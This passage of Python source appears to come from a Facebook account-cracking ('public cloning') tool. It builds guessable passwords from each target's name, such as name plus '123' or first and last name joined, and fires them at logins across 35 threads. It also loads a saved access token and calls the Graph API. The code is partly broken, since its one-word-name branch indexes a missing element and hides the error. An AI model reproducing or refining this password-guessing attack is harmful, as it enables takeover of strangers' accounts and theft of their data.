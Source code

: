 			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]
						else:
							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
							pass
			os.remove(self.apk)
			hasil(ok,cp)
		else:
			print('\nSalah')
			time.sleep(1)
			self.__pler__()
			
def publiccrack():
    os.system('clear');print(banner)
    try:
        access_token = open('access_token.txt', 'r').read()
    except:
        login()
    try:
        r = requests.get('https://graph.facebook.com/me?access_token='+access_token).text
        q = json.loads(r)
        uname = q['name']
    except:
        login()
    os.system('clear')
    print(banner)
    os.system('rm -rf .psy1.txt')
    os.system('rm -rf .psy2.txt')
    print(' \033[1;96mLogged user : \033[1;92m  '+uname)
    print(50*"\033[1;97m_")
    print('          \033[1;32m[ PUBLIC CLONING MENU CP/OK MIX ] ')
    print(50*"\033[1;97m_")
    print('\033[1;37m[1] \033[1;36mPUBLIC CLONING')
    print('\033[1;37m[0] \033[1;31mBACK')
    print(50*"\033[1;97m_")
    _Adi__ = input('\033[1;37m[+] \033[1;32mCHOOSE OPTION : ')
    if _Adi__ in ('1', '01'):
        __cracking__().plerr()
    if _Adi__ in ('0', '00'):
    	time.sleep(2);version()
    else:
    	print('        Invalid Select')
    time.sleep(1)
    version() 
    